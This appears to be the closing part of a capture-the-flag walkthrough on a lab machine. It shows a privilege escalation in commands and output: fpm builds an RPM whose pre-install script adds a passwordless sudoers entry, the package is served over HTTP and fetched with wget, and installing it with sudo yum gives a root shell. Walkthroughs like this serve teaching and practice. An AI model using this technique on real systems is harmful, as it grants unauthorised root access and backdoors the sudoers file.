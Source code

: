 Create the malicious package running the following commands.

```bash
TF=$(mktemp -d)
root@ip-10-10-153-35:/tmp# echo '/bin/sh -c "echo \"jjameson ALL=(ALL) NOPASSWD:ALL\" | sudo tee -a /etc/sudoers"' > $TF/x.sh
root@ip-10-10-153-35:/tmp# fpm -n y -s dir -t rpm -a all --before-install $TF/x.sh $TF
Created package {:path=>"y-1.0-1.noarch.rpm"}
```

Let's break them down:

- The first line creates a temporary folder
- The second line creates a script that appends `jjameson ALL=(ALL) NOPASSWD:ALL` to the sudoers file, thus granting jjameson the right to execute any program with sudo rights without entering the password
- The third line creates a rpm package that contains the script created on line 2 and it will execute it immediately before the installation process

Start a http server and serve the rpm to the target

```bash
root@ip-10-10-153-35:/tmp# python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Download the rpm on the target

```bash
wget http://10.10.153.35:8000/y-1.0-1.noarch.rpm
--2024-10-25 12:44:11--  http://10.10.153.35:8000/y-1.0-1.noarch.rpm
Connecting to 10.10.153.35:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6263 (6.1K) [application/x-redhat-package-manager]
Saving to: 'y-1.0-1.noarch.rpm'

     0K ......                                                100%  134M=0s

2024-10-25 12:44:11 (134 MB/s) - 'y-1.0-1.noarch.rpm' saved [6263/6263]
```

Install the rpm with yum, using sudo

```bash
sudo yum localinstall -y y-1.0-1.noarch.rpm
```

Right before the actual installation, the malicious script will run and, thanks to the sudo right, it will be able to alter the sudoers file.

Now, being able to run any program with sudo, it is quite easy to get root privileges.

```bash
whoami
jjameson
sudo /bin/bash
whoami
root
```

Now that you are root, retrieve the root flag:

```bash
cd /root
ls
anaconda-ks.cfg
root.txt
cat root.txt
[REDACTED]
```

That's it for this room, see you in the next one.  
Until next time, happy hacking!
